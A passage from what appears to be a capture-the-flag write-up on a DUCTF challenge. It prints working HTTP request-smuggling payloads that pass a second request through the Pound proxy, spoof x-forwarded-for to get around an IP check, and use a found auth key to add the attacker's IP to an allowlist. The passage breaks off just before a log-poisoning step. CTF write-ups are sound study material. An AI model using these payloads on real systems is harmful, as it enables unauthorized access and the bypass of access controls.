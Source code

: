 ```
GET /one HTTP/1.1
Host: localhost
Transfer-Encoding: chunked

5
AAAAAXX2
45
0

GET /two HTTP/1.1
Host: localhost
Transfer-Encoding: chunked

0

```

I used this vulnerability to smuggle an additional request to `h11` with a `x-forwarded-for` header that is not modified by Pound. If we set the `x-forwarded-for` header to `127.0.0.1` we can bypass the IP check.

### Adding ourserlves to the IP Allowlist

Now that we have the auth key and an IP check bypass we can start interacting with the RPC service. To make our lives a bit easier, we can change the allowlist to accept our actual IP address:

```
GET / HTTP/1.1
Host: dev.rpc-service.ductf
Transfer-Encoding: chunked

5
AAAAAXX3
130
0

GET /update_allowlist=<YOUR IP> HTTP/1.1
Host: dev.rpc-service.ductf
x-forwarded-for: 127.0.0.1
auth-key: 2e48228116c6ae588ba6155859f0f2cf67e81f01
Transfer-Encoding: chunked

0

```

Now we can call the RPC service without having to smuggle additional HTTP requests each time! This also means we can start seeing the response of requests.

### Completing the Attack Chain

The RPC service exposes an endpoint to read logs. This is a classic set up for a log poisoning vulnerabilty, so I started exploring in this direction. From the snippet below, we can see that such a vulnerability does indeed exist, by leveraging a double format:
